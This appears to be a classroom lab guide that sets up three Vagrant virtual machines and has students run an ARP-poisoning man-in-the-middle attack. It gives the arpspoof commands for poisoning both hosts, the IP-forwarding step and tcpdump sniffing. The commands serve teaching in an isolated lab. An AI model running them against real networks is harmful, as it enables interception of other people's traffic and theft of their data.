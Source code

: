 = ARP Poisoning for Man-in-the-Middle Attacks

Address Resolution Protocol (ARP) is used to map IP addresses to MAC (hardware) addresses. The ARP protocol works at the data link layer, such as when computers communicate directly with other computers connected to a switch. Computers, switches, and routers maintain caches of IP addresses and the hardware addresses associated with those IP addresses to facilitate communication. The ARP protocol can be attacked so that traffic can be redirected.

In this lab, you will execute a man-in-the-middle attack using ARP poisoning.

== Prerequisites

* VirtualBox installed with 64 bit operating support enabled
* Vagrant installed
* SSH available from the command line
* An Internet connection

== Lab Overview

In this exercise, there will be three virtual machines.

1. Victim. 192.168.10.10. This virtural machine just wants to connect to the server.
2. Middle. 192.168.10.50. This is the machine that will be executing the attack between the victim and the server.
3. Server. 192.168.10.100. This machine only exists to respond to ping requests.

The virtual machines are only configured to use 200 MB of memory each, so running them all on your hardware should be fine.

== Start the Virtual Machines

Copy the following text to a file. Save it in a new folder with the name `Vagrantfile`. Be sure that you do not save the file as Vagrantfile`.txt`.

```
# -*- mode: ruby -*-
# vi: set ft=ruby :

Vagrant.configure(2) do |config|

  config.vm.provision "shell", inline: "echo Starting victim, middle, and server"
  
  config.vm.provider "virtualbox" do |v|
    v.memory = 200
  end
  
  config.vm.define "victim" do |victim|
    victim.vm.box = "ubuntu/trusty64"
    victim.vm.host_name = "victim"
    victim.vm.network "private_network", ip: "192.168.10.10"
    victim.vm.box_check_update = false
  end
  
  config.vm.define "middle" do |middle|
    middle.vm.box = "ubuntu/trusty64"
    middle.vm.host_name = "middle"
    middle.vm.network "private_network", ip: "192.168.10.50"
    middle.vm.box_check_update = false
  end
  
  config.vm.define "server" do |server|
    server.vm.box = "ubuntu/trusty64"
    server.vm.host_name = "server"
    server.vm.network "private_network", ip: "192.168.10.100"
    server.vm.box_check_update = false
  end

 
end
```

* Open a command prompt and navigate to the folder where you put `Vagrantfile`.
* Run `vagrant up` to bring up `3` virtual machines.
* Open `four` more command prompts and go to the folder where you put `Vagrantfile`. For example, I put `Vagrantfile` in `C:\temp\arp`. In the following screenshot, you can see that four command prompts are open.
+
image::three-cmd-prompts.png[]
* In the first command prompt, run `color 02` to change the font color to green. (Think green=good). This command window will connect to the victim who just wants to get her work done.
+
```
color 02
```
* In the remaining three command prompts run `color 04` to change the font color to red (think red=rogue).
* In the green command prompt, run the following command to connect.
+
```
vagrant ssh victim
```
* In the three red command prompts, run the following command to connect.
+
```
vagrant ssh middle
```
* In the victim (green) termina, ping the server and leave the ping running.
+
```
ping 192.168.10.100
```
* In a red (middle/attacker) terminal, run `ifconfig`. Notice that there are two network adapters. One network adapter on the 10.0.2.0/24 network will give  you internet access. The 192.168.10.0/24 network will allow you to communicate between the virtual machines.

== Install Arpspoof

In your the first red command prompt, run the following command to install the `arpspoof` utility.

```
sudo apt-get install dsniff
```

Press `y` to accept the installation.

== Using Arpspoof

The syntax is `arpspoof -i [interface] -t [target] host`. You will need to poison both the victim and the server.

Run the following command in one of the atacker command prompts.

```
sudo arpspoof -i eth1 -t 192.168.10.100 192.168.10.10
```

In another command prompt, run the following command to poison the other host.

```
sudo arpspoof -i eth1 -t 192.168.10.10 192.168.10.100
```

The pings should stop. Traffic is being directed through the middle computer, but the requests are not being forwarded. The attacker is now the man in the middle.

```
sudo su
echo 1 > /proc/sys/net/ipv4/ip_forward
```

Running `sudo su` simply elevates privileges. Running `echo 1 > /proc/sys/net/ipv4/ip_forward` changes the file names `ip_forward` so that it contains a `1` instead of a `0`. This tells the attacker to forward packets that are not destined for it.

As soon as forwarding is turned on, the ping requests should begin to succeed again.

== Challenge

* Use `tcpdump` to view the traffic on the 192.168.10. network while you manipulate the ARP caches. The current setup gives each of the virtual machines two network interfaces. You should monitor the `eth1` interface.
+
```
sudo tcpdump -i eth1
```

== Cleanup

* Exit from all SSH sessions.
* Run `vagrant destroy` to delete the three virtual machines.
